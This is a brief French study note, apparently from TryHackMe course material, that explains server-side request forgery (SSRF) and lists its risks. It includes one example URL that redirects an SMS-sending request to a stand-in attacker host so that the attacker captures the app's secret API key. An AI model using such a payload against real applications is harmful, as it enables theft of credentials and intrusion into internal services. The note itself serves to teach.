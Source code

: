 Une faille **SSRF** apparaît lorsqu’une application web peut être manipulée pour envoyer des requêtes à des destinations arbitraires, contrôlées par l’attaquant.

### 🔹 Exemple concret

- Une appli envoie des SMS via une API externe en utilisant une **clé secrète**.
    
- Le paramètre `server` est exposé à l’utilisateur.
    
- Un attaquant peut le modifier pour rediriger la requête vers son propre serveur → il intercepte alors la requête **avec la clé API**.
    
- Ex. :
    
    `https://www.mysite.com/sms?server=attacker.thm&msg=ABC`
    
    Fait que le serveur envoie la requête vers :
    
    `https://attacker.thm/api/send?msg=ABC`
    

### 🔹 Risques et usages avancés de SSRF

- **Énumération réseau interne** (IP, ports).
    
- **Accès à des services internes protégés** via relations de confiance.
    
- **Interaction avec services non-HTTP** pouvant mener à de l’exécution de code à distance (RCE).